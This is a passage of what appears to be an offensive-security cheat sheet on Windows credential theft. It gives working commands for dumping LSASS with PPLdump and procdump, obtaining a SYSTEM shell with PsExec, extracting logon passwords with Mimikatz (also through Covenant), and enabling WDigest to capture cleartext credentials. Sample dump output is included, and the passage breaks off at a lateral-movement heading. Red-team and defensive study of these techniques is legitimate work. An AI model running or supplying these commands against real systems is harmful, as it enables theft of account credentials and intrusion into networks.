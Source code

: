 ##### Disable LSA Protection and Dump with PPLDump

```
\PPLdump.exe lsass.exe C:\users\administrator\desktop\lsassdmp.txt
```

##### Covenant Logon Passwords

```
> Mimikatz privilege::debug sekurlsa::logonpasswords
[...]
```

##### Cleartext Creds

Set `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest` and wait for next logon.

##### Offline LSASS

Via `procdump.exe`

```
# get system shell
> c:\Tools\SysinternalsSuite>PsExec.exe -i -s cmd

# create dump
>.\procdump.exe -ma lsass.exe c:\tools\lsass.dmp

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com


ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:24:51] Dump 1 initiated: c:\tools\lsass.dmp
[13:24:52] Dump 1 writing: Estimated dump file size is 45 MB.
[13:24:52] Dump 1 complete: 45 MB written in 0.7 seconds
[13:24:52] Dump count reached.
```

Parse via Mimikatz

```
mimikatz # sekurlsa::minidump lsass.dmp

mimikatz # sekurlsa::logonpasswords
```

---

## 6. Lateral Movement

### RDP
